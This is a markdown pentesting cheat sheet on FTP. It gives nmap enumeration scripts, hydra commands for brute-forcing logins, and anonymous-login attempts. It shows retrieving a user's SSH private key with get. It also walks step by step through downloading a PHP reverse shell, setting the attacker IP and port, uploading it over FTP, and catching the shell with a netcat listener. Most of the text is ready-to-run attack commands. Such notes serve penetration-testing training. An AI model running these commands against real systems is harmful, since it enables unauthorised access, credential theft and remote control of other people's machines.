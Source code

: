 ```yaml
---
title: FTP (File Transfer Protocol) Pentesting
description: FTP is a standard communication protocol used for the transfer of computer files from a server to a client on a computer network. Default ports are 20 (for data), 21 (for control).
tags:
    - Network
    - Reverse Shell
refs:
date: 2023-02-11
draft: false
---
```


## Enumeration

```sh
nmap --script ftp-anon -p 21 <target-ip>
nmap --script ftp-vuln* -p 21 <target-ip>
nmap --script ftp-* -p 21 <target-ip>
```

### Brute Force Credentials

```sh
hydra -l username -P passwords.txt <target-ip> ftp
hydra -L username.txt -p password <target-ip> ftp

hydra -l username -P passwords.txt ftp://<target-ip>
hydra -L usernames.txt -p password ftp://<target-ip>
```

<br />

## Investigation

### Banner Grabbing

```sh
nc <target-ip> 21
```

### Using OpenSSL

First off, open listener.

```sh
nc -vn <target-ip> 21
```

Then run the command below.

```sh
openssl s_client -connect <target-ip>:21 -starttls ftp
```

<br />

## Connect

```sh
ftp <target-ip>
ftp <target-ip> <target-port>
```

Sometimes we might be able to the **anonymous** login.  
Not likely, but worth a try.

```sh
ftp <target-ip>
username: anonymous
password: anonymous
```

<br />

## Commands in FTP

After connecting FTP, we can search directories and files, then download them to your local machine, and put local files to the target system.  
The FTP commands are almost the same as Linux commands.

```sh
ftp> pwd
ftp> cd
ftp> ls
# Print the content of the file
ftp> get example.txt -

# Switch to passive mode.
ftp> passive

# Print usage
ftp> ?
```

### Transfer Files

To transfer files to local machine,

```sh
ftp> get example.txt
ftp> get home/user/.ssh/id_rsa ./id_rsa

# recursive
wget -r --user='username' --password='password' ftp://<target-ip>/sample
```

<br />

## Reverse Shell over Website

If the target website allows users to access the ftp directory, we can upload the exploit for the reverse shell and get a shell.  

1. **Download the Payload**

    Get the payload for the reverse shell from [this repository](https://github.com/pentestmonkey/php-reverse-shell).

    ```sh
    wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php -O shell.php

    # --------------------------------------------------------------------------------

    # Edit some variables in shell.php
    $ip = '<your-local-ip>';
    $port = 1234;
    ```

2. **Upload the Payload to FTP Directory**

    Connect to FTP and upload the payload.

    ```sh
    ftp <target-ip>

    # Upload the payload you downloaded
    ftp> put shell.php
    ```

3. **Get a Shell**

    At first, w need to open listener in your local machine.

    ```sh
    nc -lvnp 1234
    ```

    In a web browser, access to "http://vulnerable.com/path/to/ftp/shell.php".  
    We should get a target shell.

<br />

## Start FTP Server

### 1. Install vsftpd

```bash
sudp apt install vsftpd
```

To check the config file for vsftpd, run the following command.

```bash
less /etc/vsftpd.conf
```

### 2. Start FTP Server

Below are commands for starting FTP server and checking the status.

```bash
sudo systemctl start vsftpd
sudo systemctl status vsftpd
```

If you’ve updated the config file, you need to restart vsftpd.

```bash
sudo systemctl restart vsftpd
```
